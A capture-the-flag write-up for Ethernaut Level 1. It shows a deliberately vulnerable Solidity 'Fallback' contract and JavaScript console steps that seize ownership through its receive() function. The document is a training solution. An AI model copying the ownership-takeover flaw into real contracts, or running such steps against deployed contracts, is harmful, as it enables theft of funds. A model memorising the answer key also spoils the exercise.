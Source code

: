 # Ethernaut Level1

-----

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

We need to trigger `reveive()` to claim ownership. In order to meet the conditions, we first call the public function `contribute()` through ABI to add value to state variable `contributions`.

```javascript
await contract.contribute.sendTransaction({from:player,to:contract.address, value:web3.utils.toWei('0.0000001','ether')})
```

We can now check the contributions:

```js
Number(await contract.getContribution())
```

Now we have meet the conditions, call `receive()` out of ABI to gain ownership:

```js
await sendTransaction({from: player, to: contract.address, value: web3.utils.toWei('0.00001', 'ether')})
```

You can check the ownership now:

```js
await contract.owner()
```

